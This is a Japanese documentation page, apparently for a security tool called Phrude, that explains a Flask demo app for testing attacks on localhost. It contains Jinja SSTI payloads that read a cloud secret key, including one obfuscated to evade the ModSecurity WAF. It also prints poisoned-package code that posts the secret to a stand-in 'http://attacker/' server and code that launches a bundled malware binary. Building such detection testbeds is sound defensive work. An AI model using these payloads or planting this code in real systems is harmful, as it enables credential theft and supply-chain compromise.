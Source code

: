 ```yaml
---
sidebar_position: 4
---
```


# デモ用Webアプリの解説

Phrudeの検証で用いたPython Flask製のデモ用Webアプリを <https://github.com/phrude/flask-demoapp> で公開しています。

Webアプリに任意の処理を挿入する攻撃のうち、外部からのHTTPリクエスト経由の攻撃としてSSTI、内部からの攻撃として汚染ライブラリの混入(Pythonのコードで攻撃処理が記述されているもの・マルウェアバイナリを実行するもの)が実装されています。

## デモ用Webアプリの立ち上げ

動作させるためには

- [Docker](https://docs.docker.com/)
- [Docker Compose](https://docs.docker.com/compose/)

をインストールしてください。

DockerおよびDocker Composeをインストール後、`docker compose up -d`コマンドで

- <http://localhost:8080> Python Flask製のデモ用Webアプリ
- <http://localhost:8081> オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したPython Flask製のデモ用Webアプリ
- <http://localhost:8082> 攻撃の実行時に流出させた情報を受け取る、攻撃者の模擬サーバー

が起動します。

## 擬似的な攻撃の実行

以下の5つの擬似的な攻撃を実行することができます。

### 1. 外部からのHTTPリクエスト経由の攻撃

以下のようなcurlコマンドの実行

```
curl -X POST http://localhost:8080/ssti -d name="{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}"
```

もしくは <http://localhost:8080> デモ用Webアプリに

```
{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}
```

を入力し`Send`ボタンをクリックしてください。

画面に `Hello wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY.`と表示されます。

この`wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY`は環境変数に格納されている秘密の鍵で、もしこの鍵がクラウドのリソースへアクセスするためのものである場合、このような攻撃による流出によってクラウドのリソースの不正な使用や情報流出に繋がります。

### 2. WAFに検知される外部からのHTTPリクエスト経由の攻撃

先程のデモ用WebアプリにオープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したもので同じように

以下のようなcurlコマンドの実行

```
curl -X POST http://localhost:8081/ssti -d name="{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}"
```

もしくは <http://localhost:8081> オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したデモ用Webアプリに

```
{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}
```

を入力し`Send`ボタンをクリックしてください。

`403 Forbidden`エラーが画面に表示されます。

WAFはHTTPリクエストの文字列に含まれる、攻撃に特有の文字列を見つけることでそのHTTPリクエストが攻撃であるかを判断します。

`docker logs flask-demoapp-modsecurity-1`コマンドでオープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)のログを確認すると`PHP Injection Attack: High-Risk PHP Function Call Found`というルールに抵触し、攻撃であると判断されたことが分かります。

### 3. WAFの検知を回避した外部からのHTTPリクエスト経由の攻撃

オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)の検知を回避するよう細工した攻撃文字列を送信します

以下のようなcurlコマンドの実行

```
curl -X POST http://localhost:8081/ssti -d name="{{(request.application.__globals__.__builtins__.__import__('os')|attr('ge'+'tenv')).__call__('CLOUD_SECRET_KEY')}}"
```

もしくは <http://localhost:8081> オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したデモ用Webアプリに

```
{{(request.application.__globals__.__builtins__.__import__('os')|attr('ge'+'tenv')).__call__('CLOUD_SECRET_KEY')}}
```

を入力し`Send`ボタンをクリックしてください。

画面に `Hello wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY.`と表示されます。

オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)の検知を回避し、環境変数に格納されている秘密の鍵`wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY`を流出させることができました。

### 4. Pythonのコードで攻撃処理が記述されている汚染ライブラリの混入による攻撃

このデモ用Webアプリが導入しているライブラリstealer_packageでは`__init__.py`ファイルに不審な処理が記述されています。

```python
try:
    import os
    import requests

    # Get an environment variable
    secret = os.getenv("CLOUD_SECRET_KEY")
    requests.post("http://attacker/", data={"CLOUD_SECRET_KEY": secret})
except:
    pass
```

ここではgetenv関数で環境変数に格納されている秘密の鍵を取得し、外部のサーバー`http://attacker/`へ送信しています。

ライブラリstealer_packageで提供されている機能を使う処理を実行します。

以下のようなcurlコマンドの実行

```
curl http://localhost:8081/stealer
```

もしくは <http://localhost:8081/stealer> へブラウザでアクセスしてください。

画面に `Stealer demo is executed`と表示されます。

このとき、デモ用Webアプリが導入しているライブラリstealer_package内の不審な処理が実行され、秘密の鍵が攻撃者のサーバー`http://attacker/`に送信され流出しました。

攻撃者の模擬サーバー <http://localhost:8082> を確認すると

```
[{'CLOUD_SECRET_KEY': 'wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY'}]
```

と秘密の鍵が攻撃者の手に渡っていることが確認できます。

### 5. マルウェアバイナリを実行する汚染ライブラリの混入による攻撃

このデモ用Webアプリが導入しているライブラリmalware_packageでは`__init__.py`ファイルに不審な処理が記述されています。

```python
try:
    import subprocess
    import os

    # Run malware
    subprocess.Popen(
        os.path.join(os.path.dirname(os.path.abspath(__file__)), "malware"),
        stdout=subprocess.DEVNULL,
        stderr=subprocess.DEVNULL,
        stdin=subprocess.DEVNULL,
    )
except:
    pass
```

ここではパッケージに同梱された実行可能ファイル`malware`を実行しています。

ライブラリmalware_packageで提供されている機能を使う処理を実行します。

以下のようなcurlコマンドの実行

```
curl http://localhost:8081/malware
```

もしくは <http://localhost:8081/malware> へブラウザでアクセスしてください。

画面に `Malware demo is executed`と表示されます。

このとき、デモ用Webアプリが導入しているライブラリmalware_package内の不審な処理が実行され、実行可能ファイル`malware`によってホスト名が攻撃者のサーバー`http://attacker/`に送信され流出しました。

攻撃者の模擬サーバー <http://localhost:8082> を確認すると

```
[{'hostname': '2c2c289ce392'}]
```

とホスト名が攻撃者の手に渡っていることが確認できます。

このようなマルウェアの実行では、Phrudeではsubprocessパッケージにより実行可能ファイルが実行されたことのみが検知できますが、システムコールによる検知ツールを使うことで実行可能ファイルがどのような処理をしたのかを把握することができます。
